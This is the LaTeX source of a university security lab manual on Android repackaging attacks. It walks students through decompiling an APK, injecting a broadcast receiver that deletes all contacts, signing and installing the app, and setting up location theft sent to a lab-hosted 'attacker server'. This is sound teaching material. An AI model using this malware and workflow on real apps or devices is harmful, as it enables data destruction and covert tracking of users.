%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website. }

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend too much on our SEED VM. You can do this lab
using other VMs or physical machines. }







\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\newcommand{\repackFigs}{./Figs}

\lhead{\bfseries SEED Labs -- Android Repackaging Attack Lab}



\begin{document}



\begin{center}
{\LARGE Android Repackaging Attack Lab}
\end{center}

\seedlabcopyright{2018}



% *******************************************
% SECTION
% ******************************************* 
\section{Overview}


Repackaging attack is a very common type of attacks on Android devices. 
In such an attack, attackers modify a popular app downloaded from app
markets, reverse engineer the app, add some malicious payloads, and then
upload the modified app to app markets. Users can be easily fooled, because
it is hard to notice the difference between the modified app and the
original app. Once the modified apps are installed, the malicious code
inside can conduct attacks, usually in the background. 
For example, in March 2011, it was found that DroidDream Trojan had
been embedded into more than 50 apps in Android official market and had
infected many users. DroidDream Trojan exploits vulnerabilities in Android
to gain the root access on the device. 


The learning objective of this lab is for students to gain a first-hand
experience in Android repackaging attack, so they can better understand 
this particular risk associated with Android systems, and be more cautious
when downloading apps to their devices, especially from those untrusted
third-party markets. In this lab, students will be
asked to conduct a simple repackaging attack on a selected app, and
demonstrate the attack only on our provided Android VM. Students should be warned not to
submit their repackaged apps to any market, or they will face legal
consequence. Nor should they run the attack on their own Android devices,
as that may cause real damages.


What makes repackaging attack easy is that Android apps' binary code can be easily reverse 
engineered, due to the lack of protection on binaries.  
The left part of Figure~\ref{fig:repackaging:overview} depicts the typical
development process of Android apps, which produces a file called APK file.
This file is uploaded to app markets for others to download. 
The right part of the figure shows that once attackers get the APK
file, they can use reverse engineering tools to unpack the APK file, 
disassemble the program, add malicious logic, and then package
everything back to APK file (modified) again. 
Attackers then upload the repackaged app to app markets, most of which do
not have countermeasures to detect whether an app is repackaged or not.  


\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.8\textwidth]{\repackFigs/RepackagingAttackOverview.pdf}
  \end{center}
  \caption{Overview of the Repackaging attack}
  \label{fig:repackaging:overview}
\end{figure}

 
\paragraph{Lab Environment.}
The lab requires two virtual machines, one is called \texttt{SEEDAndroid}, and the other is called
\texttt{SEEDUbuntu16.04}. As the name indicates, the first VM is a virtual machine running Android
operating system, and we need it to test our repackaging attack. The second
VM is a Ubuntu Linux virtual machine; all the tools needed for
this lab have already been installed on this Ubuntu VM.
Both VMs and their user manuals can be downloaded from the SEED web site. These two VMs need to
be connected to the same network (we can attach the same \texttt{"Nat Network"} adaptor to both
VMs).







% *******************************************
% SECTION
% ******************************************* 
\section{Lab Tasks}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 

\subsection{Task 1: Obtain An Android App (APK file) and Install It}


To launch the repackaging attack, we need a host app. In real attacks, attackers usually choose popular
apps, because they can get more people to download their repackaged apps.
For this task, you can write your own app or download an existing app.
You can get APK files for Android applications from many places, such as
this web site: \url{https://apkpure.com/}. We also provide a simple app for you to download
(the file name is \texttt{RepackagingLab.apk}).

It should be noted that we are using an Android VM in this lab, not a physical Android device,
so some apps may not run on the VM (they will crash). One of the possible reasons for crashing
is that the application may have native code. Native code compiled for a real Android device
has binary code for ARM processors, while our Android VM runs on x86 processors. To get these
apps to run in our Android VM, the native code needs to be recompiled for x86 processors. That
requires source code, which is hard to get.  Therefore, if you have encountered this problem,
just find another app. This limitation is only caused by the lab environment; it is not an
issue for the attacks in the real world.


Let us first install the host app. We will do it using the \texttt{adb} tool from the Ubuntu
VM. First, we need to find the IP address of the Android VM. This can be achieved by running
the \texttt{ifconfig} command in the Android Terminal app. We then run the following commands
to install the app.


\begin{lstlisting}
// Connect to the Android VM using adb
$ adb connect <ip_address_of_android_vm>

// Install the app
$ adb install <application_name>.apk
\end{lstlisting}




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 2: Disassemble Android App}

To launch the repackaging attack on an app, we need to modify the app. Although we can 
directly modify the APK file, it is not easy, because the code 
in the APK file contains Dalvik bytecode (dex format), which is not meant for human to read. We need to
convert the bytecode into something that is human readable. The most common human readable
format for Dalvik bytecode is known as Smali.  The names ``Smali'' and ``Baksmali''
are the Icelandic equivalents of ``assembler'' and ``disassembler'', respectively.

In this task, we will use a tool called \texttt{APKTool} to disassemble dex 
code (\texttt{classes.dex})
to smali code. \texttt{APKTool} is a very powerful reverse engineering tool for Android apps. It
is useful to decode and rebuild Android apps. 
We can feed the entire APK file to the tool like the following:

\begin{lstlisting}[backgroundcolor=]
  $ apktool d [appname].apk 
\end{lstlisting}


APK file is just a zip file, which contains \texttt{classes.dex} (compiled java source code,
called Dalvik bytecode), \texttt{resources.arsc} (resource files), 
\texttt{AndroidManifest.xml}, etc. \texttt{APKTool} basically unzips the APK file, and decode its contents. 
For the resource files, not much needs to be done. 
For the Dalvik bytecode \texttt{classes.dex}, it is disassembled into smali code, 
\texttt{APKTool} places the output files
into a created folder with a name that is the same as the
name of the APK file. The typical folder structure of APK file after
disassembly is shown in Figure~\ref{fig:repackaging:apkfilestructure}.
The folder contains \texttt{XML} resource files, 
\texttt{AndroidManifest} file, source code
files, etc. The \texttt{XML} resources and 
\texttt{AndroidManifest} files should be readable and usually very
close to their original forms. The disassembled smali code is placed in the 
smali folder. Typically, one smali file contains the code for one Java class.



\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.8\textwidth]{\repackFigs/ApkFileStructure.pdf}
  \end{center}
  \caption{APK file structure after running \texttt{APKTool}}
  \label{fig:repackaging:apkfilestructure}
\end{figure}
 

What we will do next is to inject some malicious code into the smali folder,
and then assemble everything together into a new APK package. That is why it is
called Repackaging attack. 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 3: Inject Malicious Code}

In this task, we will inject malicious code into the target app's smali
code. There are many ways to do that. One approach is to directly modify some existing
smali file, so we can add malicious logic into it. Another approach, which
is much easier, is to add a completely new component to the app; this
new component is independent from the existing app, so it does not
affect the app's behavior. Since each independent component can be placed
in a separate smali file, using this approach, we just need to create a
new smali file.

There are four types of components in Android apps, \textit{activity}, 
\textit{service}, \textit{broadcast receiver}, and \textit{content
provider}. The first two components are most commonly used by apps, while the other two
are not as common. We can add any of these components in the target app, but the most important
problem for the attack is to find a way to trigger the malicious code without being noticed by
users. Although solutions to the problem exist for all these components,
the easiest one is broadcast receiver, which can be triggered by broadcasts
sent by the system. For example, when the system time is set, a \texttt{TIME\_SET} broadcast
will be sent out; after the system reboots, a \texttt{BOOT\_COMPLETED} broadcast
will be sent out.  We can write a broadcast receiver that listens to one of these broadcasts, 
so the malicious code will be automatically triggered by those events.


Writing a broadcast receiver in Android is quite straightforward. If you know how to do that,
feel free to write your own code. After you have built an APK file from your own Java code, you
should run \texttt{APKTool} to disassemble your APK file and obtain the smali code for your
broadcast receiver. For those who have not taken any Android programming course,
you can use our provided smali code. The Java code is described in the following, while the smali code
can be downloaded from the web site of this lab. 

\begin{lstlisting}
public class MaliciousCode extends BroadcastReceiver {
  @Override
  public void onReceive(Context context, Intent intent) {
     ContentResolver contentResolver = context.getContentResolver();
     Cursor cursor = contentResolver.query 
              (ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
	
     while (cursor.moveToNext()) {
         String lookupKey = cursor.getString                             
              (cursor.getColumnIndex(ContactsContract.Contacts.LOOKUP_KEY));
                                    
         Uri uri = Uri.withAppendedPath 
	           (ContactsContract.Contacts.CONTENT_LOOKUP_URI, lookupKey);
         contentResolver.delete(uri, null, null);
     }
  }
}
\end{lstlisting}

The above malicious code, if triggered, will delete all the contact records from the device.  
The code implements a broadcast receiver, which will be triggered by a broadcast event. Once it is
triggered, it enters the \texttt{onReceive()} method, and this is where we implement our
malicious logic. The code above basically interacts with the
\texttt{Contacts} app's content provider, and asks the content provider to remove all its entries,
essentially wiping out all the contact records.
In the code, a \texttt{ContentResolver} is used to access the
contacts stored on the phone. In order to get the list of contacts,
a query is sent to \texttt{Contacts}' content provider. This query does not provide any matching
criterion, so all the records are returned via a \texttt{Cursor} object.
The code then go through all these records and delete them one by one. 


You can download the smali code of the above program from our web site, and place it 
in the \texttt{smali/com} folder that is created by \texttt{APKTool}.
However, we are not done yet, because we have not tell the system when to invoke our broadcast
receiver. We have to register our broadcast receiver to the system. This is done by adding some
information to the target app's \texttt{AndroidManifest.xml} file, which can also be found from
the folder created by \texttt{APKTool}. 
Moreover, in order to read from and write to \texttt{Contacts}' content provider, 
an app needs to declare two corresponding permissions in \texttt{AndroidManifest.xml}. The 
following shows what needs to be added to the manifest file.


\begin{lstlisting}
<manifest...>
  ...
  <uses-permission android:name="android.permission.READ_CONTACTS" />  (*@\ding{192}@*)
  <uses-permission android:name="android.permission.WRITE_CONTACTS" /> (*@\ding{193}@*)
  ....

  <application>
      .....
      .....
      <receiver android:name="com.MaliciousCode" >
          <intent-filter>
             <action android:name="android.intent.action.TIME_SET" />  (*@\ding{194}@*)
          </intent-filter>
      </receiver>
  </application>

</manifest>
\end{lstlisting}

In the above manifest file, we add two permissions to allow the app to read from and write to
\texttt{Contacts}' content provider~(Lines~\ding{192} and \ding{193}).
It should be noted that 
these permissions are added outside of the \texttt{<application>} block, but 
within the \texttt{<manifest>} block. In the file, we also 
register our broadcast receiver to the \texttt{TIME\_SET} broadcast event~(Line~\ding{194}), 
so our code can be triggered every time we change the time on the phone.
The registration should be added inside the 
\texttt{<application>} block, not inside the \texttt{<activity>} block.   
The application that you downloaded from app markets may have a large
\texttt{AndroidManifest.xml} file; you should carefully modify the
file and place the injected contents in the right place. 
 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 4: Repack Android App with Malicious Code}

After we have inserted your own malicious smali code, we are ready to reassemble everything
together, and build a single APK file. The process takes two steps.
	

\paragraph{Step 1: Rebuild APK}
We use \texttt{APKTool} again to generate a new APK file. The command is shown in the following. 
By default, the new APK file will be saved in the \texttt{“dist”}
directory.

\begin{lstlisting}[backgroundcolor=]
  $ apktool b [application_folder] 
\end{lstlisting}
 

\paragraph{Step 2: Sign the APK file}
Android requires all apps to be digitally signed before they can be installed. 
This requires each APK to have a digital signature and a public key certificate. 
The certificate and the signature helps Android to identify the 
author of an app. From the security perspective, the certificate needs to be signed by a
certificate authority, who, before signing, needs to verify that the identify stored inside the certificate is
indeed authentic. Getting a certificate from an accepted certificate authority
is usually not free, so Android allows developers
to sign their certificates using their own private key, i.e., the certificate is self signed. 
The purpose of such self-signed certificates is meant for apps to be able to run
on Android devices, not for security. Developers can put any name they want
in the certificate, regardless of whether the
name is legally owned by others or not, because no certificate authority is involved to check
that. Obviously, this entirely defeats the purpose of certificate and signature. 
Google Play Store does some name verification before accepting an app, 
but other third-party app markets do not always conduct such a
verification. In this lab, we will just use a self-signed certificate. The
entire process consists of two steps. 

\begin{enumerate}

\item Step 1: Generate a public and private key pair using the \texttt{keytool} command:

\begin{lstlisting}[backgroundcolor=]
  $ keytool -alias <alias_name> -genkey -v -keystore mykey.keystore
\end{lstlisting}
% (options not needed)  -keyalg RSA -keysize 2048 -validity 10000

The tool will prompt users for a password, which is used to protect the keystore;
it also asks users to provide some additional information for the key. It then generates
a public/private key pair, and store that in a keystore file
\texttt{mykey.keystore} (specified at the command line).
The keystore can store multiple keys, each identified by an alias name (specified in
the command), which is the name that we will use later when signing your app.

\item Step 2: We can now use \texttt{jarsigner} to sign the APK file using the key
  generated in the previous step. We can do it using the following command.

\begin{lstlisting}[backgroundcolor=]
  $ jarsigner -keystore mykey.keystore app_name.apk <alias_name>
\end{lstlisting}
%$ jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1
%       -keystore my-release-key.keystore my_app_name.apk <alias_name>

The command \texttt{jarsigner} prompts the user to enter the password,
which is needed for accessing the keystore. It then use the key (identified
by the alias name) to sign the APK file.
\end{enumerate}
 
 


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 5: Install the Repackaged App and Trigger the Malicious Code}

In this final step, we will install the modified app on our Android VM, and test whether
the attack is successful or not. If we have already installed
the app before, we need to go to Android VM and uninstall the app first; otherwise, we will not
be able to install the repackaged app, because of the signature mismatch.
The instructions for installation are the same as those in Task 1.


Before demonstrating the attack, we need to give our application permission to access contacts.
In a real world scenario, applications usually ask users for permission. Permissions for
photos, contacts, location etc. are very commonly asked for.

\begin{lstlisting}[backgroundcolor=]
  Settings -> Apps -> Repackaging Lab -> Permissions -> toggle contacts on
\end{lstlisting}

To demonstrate whether the attack works, we just need to run the application once,
add a few contacts in the \texttt{Contacts} app and change the time on the android VM. If
your attack is successful, you should see that all the contact records that you just entered are
deleted. To change the time, do the following:

\begin{lstlisting}[backgroundcolor=]
  Settings -> Date and Time -> Set time
\end{lstlisting}


\paragraph{Common problems.}
We need to run the installed repackaged application once to register the
receiver. Otherwise, the injected code will not be executed.



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 6: Using Repackaging Attack to Track Victim's Location}


In this task, we will perform another repackaging attack where the
malicious code will steal the location information from a user's phone, 
essentially tracking the user's movement. 


\paragraph{Step 1. Setting up mock locations.}
On an Android device, we can get the location information from
its GPS hardware. However, our Android VM does not have such 
hardware, but Android OS does allow us to 
provide mock locations to applications. All we need to do is to 
write a mock location app, and then configure the Android OS to get
locations from this app, instead of a real GPS hardware. We have already
installed such an app in the Android VM. 
This app can simulate location traces in six different cities. Simply 
select a city from the app. 


\paragraph{Step 2: Configuring DNS.} The malicious code in the 
repackaged app will send out the victim's coordinates to 
the attacker's server at \url{www.repackagingattacklab.com}. 
We are going to use the SEEDUbuntu VM to host this server. Therefore, 
we need to map the hostname to the Ubuntu VM's IP address. 
The easiest way to set this up is to add a line to the \path{/system/etc/hosts} file 
on the Android VM. We can use a text editor tool (such as \texttt{vi} or
some editor app) to directly modify the file on Android. 

\begin{lstlisting}
// Run the following commands on the Android VM
$ su root
# vi /system/etc/hosts

  Add the following entry to the end of hosts
  (*@\textbf{IP\_Address  www.repackagingattacklab.com}@*)

  where IP_Address is the IP address of the Ubuntu VM 
\end{lstlisting}


If you are not
familiar with the editing tool on Android, you can copy the file 
to the Ubuntu VM, makes changes in Ubuntu, and then copy the file back to
Android. The following commands are for this latter approach. 

\begin{lstlisting}
// Run the following commands on the Ubuntu VM
// Assume Android VM's IP is: 10.0.2.9

// Get the Ubuntu VM's IP address 
$ ifconfig

// Start the adb daemon with root privilege 
$ adb root 

// Connect to the Android VM
$ adb connect 10.0.2.9 

// Download the hosts file from the Android VM
$ adb pull /system/etc/hosts

// Modify the downloaded hosts file on Ubuntu VM
$ gedit ./hosts  (or use your own favorite text editor)

  Add the following entry to the end of hosts
  IP_Address  www.repackagingattacklab.com

  where IP_Address is the IP address of the Ubuntu VM 

// Upload the hosts file back to the Android VM
$ adb push ./hosts /system/etc/hosts
\end{lstlisting}



